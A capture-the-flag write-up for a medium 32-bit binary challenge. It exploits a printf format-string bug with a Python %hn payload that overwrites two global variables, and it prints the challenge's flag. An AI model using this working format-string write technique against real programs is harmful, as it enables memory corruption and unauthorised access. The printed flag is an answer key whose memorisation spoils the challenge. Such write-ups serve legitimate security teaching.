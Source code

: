 # CTF Write-up — “Mauryan Royal Archive” (Format String → Flip Globals → Print Flag)

## Overview

- **Category:** Pwn / Binary Exploitation  
- **Difficulty:** Medium  
- **Binary:** `imperial_archive` (ELF 32-bit, i386, dynamically linked, not stripped)  
- **Protections:** NX, Partial RELRO, No PIE, No Canary  
- **Goal:** Satisfy a gate in `imperial_access()` to read and print `flag.txt`  
- **Final Flag:** `H7CTF{m4ury4n_pi114r_c1ph3r_3218C3_a4fc5c52-5763-4cc6-95eb-6190187e9869}`  

---

## Recon

### File Information

```bash
file imperial_archive
Output:


ELF 32-bit LSB executable, Intel 80386, dynamically linked, with debug_info, not stripped

checksec --file=./imperial_archive
Output:


Partial RELRO | No Canary | NX Enabled | No PIE
Symbols (Extracted from ELF)

0804c06c B mauryan_empire
0804c070 B ashoka_edict
Static Analysis
Key Functions
scribe_function()

```
```c
void scribe_function(void) {
  char buffer[256];
  ...
  printf("Processing inscription: ");
  printf(buffer);       // format-string vulnerability
  ...
  imperial_access();
}
imperial_access()


void imperial_access(void) {
  if (mauryan_empire != 0x141 || ashoka_edict < 0x397b) {
    puts("Access denied.");
    return;
  }
  // Success path:
  // opens flag.txt and prints:
  printf("Flag: %s", flag_from_file);
}
```
### Vulnerability
The call printf(buffer) treats user input as a format string, allowing arbitrary memory read/write using format specifiers (%x, %n, etc.).
Because imperial_access() runs right after printf(buffer), we can use the format string to set the global variables that determine access.

Gate Condition
- To reach the success path, the program checks:

```csharp

mauryan_empire == 0x0141  (decimal 321)
ashoka_edict   >= 0x397b  (decimal 14715)
Finding the printf Stack Offset
To identify the correct argument index for %n, send a pattern:
```
```bash

AAAA.%1$x.%2$x.%3$x.%4$x.%5$x.%6$x...
Remote output revealed:


Processing inscription: AAAA.804a452.f7f965c0.f7e7cb97.41414141...
```
- The marker 41414141 (AAAA) appears at the 4th position,
so our stack offset = 4.

### Exploit Strategy
We’ll craft a format string that:

Places the two target addresses (mauryan_empire, ashoka_edict) at the beginning of the input.

Uses positional format specifiers to perform 16-bit writes (%hn).

Writes the required values 0x0141 and 0x397b in sequence.

Targets
Variable	Address	Value to Write	Type
mauryan_empire	0x0804c06c	0x0141	16-bit
ashoka_edict	0x0804c070	0x397b	16-bit

Little-endian encoding avoids null bytes:

```nginx

mauryan_empire → \x6c\xc0\x04\x08
ashoka_edict   → \x70\xc0\x04\x08
```
### Payload Construction
We use Python to generate the payload:

```python

#!/usr/bin/env python3
import sys

# 1. Target addresses (little endian)
p  = b"\x6c\xc0\x04\x08" + b"\x70\xc0\x04\x08"
printed = 8  # 8 bytes already written by these addresses

# 2. Desired values
t1 = 0x0141  # 321
t2 = 0x397b  # 14715

# 3. Write first value to mauryan_empire via %4$hn
pad1 = (t1 - printed) % 0x10000
fmt = f"%{pad1}c%4$hn"
printed = (printed + pad1) % 0x10000

# 4. Then write second value to ashoka_edict via %5$hn
pad2 = (t2 - printed) % 0x10000
fmt += f"%{pad2}c%5$hn"

# 5. Combine and send
sys.stdout.buffer.write(p + fmt.encode() + b"\n")
```
Run locally or remotely:

```bash

python3 exploit.py | nc play.h7tex.com 51932
Why %hn?
%hn writes 2 bytes (16 bits) → minimal padding required.

%n (4 bytes) would require padding up to 4GB.

%hhn (1 byte) would need 4 separate writes per target.
```
### Exploit Output
```css

Verifying imperial authority...
Glory to the Mauryan Empire! Access granted to the royal archives!
Royal Inscription:
Flag: H7CTF{m4ury4n_pi114r_c1ph3r_3218C3_a4fc5c52-5763-4cc6-95eb-6190187e9869}
```
### Root Cause
Bug:
- User-controlled string is passed directly to printf():


Final Flag:

```
H7CTF{m4ury4n_pi114r_c1ph3r_3218C3_a4fc5c52-5763-4cc6-95eb-6190187e9869}
```